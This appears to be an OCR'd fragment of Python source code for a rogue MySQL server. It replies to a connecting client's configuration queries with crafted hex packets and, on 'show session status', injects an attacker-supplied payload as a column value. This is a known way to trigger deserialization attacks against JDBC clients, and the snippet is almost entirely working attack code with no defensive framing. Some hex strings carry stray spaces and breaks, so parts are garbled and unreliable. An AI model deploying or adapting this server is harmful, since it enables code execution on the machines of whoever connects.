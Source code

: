 ````sql

            #Other Processes
            data=receive_data(conn)
            #Query some configuration information, and will send your own version number
            if "session.auto_increment_increment" in data:
                _payload='01000001132e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f0015000000008a0000000002a0000003036465666 00000146368617261637465725f7365745f636c69656e74000c21000c00000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e6 56374696f6e000c21000c00000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00 000603646566000000146368617261637465725f7365745f736572766572000c210012000000fd00001f00000260000070364656600000010636f6c6c6174696f6e5f73657 2766572000c21003300000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c21000000000fd00001f0000290000009036465660000001369 6e7465726163746976655f74696d656f7574000c3f001500000008a000000001d00000a036465660000000076c6963656e7365000c210009000000fd00001f00002c0000000 b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000028000000c03646566000000126d61785f616c6c6f7765645f 7061636b6574000c3f001500000008a000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f00150000000008a000000002600000e036 465660000001071756572795f63616368655f73697a65000c3f001500000008a000000002600000f036465660000001071756572795f63616368655f74797065000c2100 09000000fd00001f00001e000010036465660000000873716c5f6d6f6465000c21009b010000fd00001f000026000011036465660000001073797374656d5f74696d655f7 a6f6e65000c21001b000000fd00001f00001f000012036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001303646566000000157472616e 73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000014036465660000000c776169745f74696d656f7574000c3f00150000008a0000000000000 0020100150131047574663804757466380475746638066c6174696e31116c6174696e315f737765646973685f6369000532383830300347504c0131073431393433303402 36300731303438353736034f4646894f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f4441544 52c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f4155544f5f4352454154455f555345522c4e4f5f454e4749 4e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d5245414405323838303007000016fe000002000000'
                send_data(conn,_payload)
                data=receive_data(conn)
            elif "show warnings" in data:
                _payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a000003036465660
000004436f6465000c3f000400000003a100000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726 e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656 420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f74797065272069732 06465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
                send_data(conn, _payload)
                data = receive_data(conn)
            if "set names" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "set character_set_results" in data:
                send_data(conn, response_ok_data)
                data = receive_data(conn)
            if "show session status" in data:
                mysql_data = '0100000102'
                mysql_data += '1a000002036465660001630163016301630c3f00ffff0000fc90000000000'
                mysql_data += '1a000003036465660001630163016301630c3f00ffff0000fc90000000000'
                # Get payload
                payload_content=get_payload_content()
                # Calculate the payload length
                payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
                payload_length_hex = payload_length[2:4] + payload_length[0:2]
                # Calculate the packet length
                data_len = str(hex(len(payload_content)//2 + 4)).replace('0x', '').zfill(6)
                data_len_hex = data_len[4:6] + data_len[2:4] + data_len[0:2]
                mysql_data += data_len_hex + '04' + 'fbfc' + payload_length_hex
                mysql_data += str(payload_content)
                mysql_data += '07000005fe000022000100'
                send_data(conn, mysql_data)
````
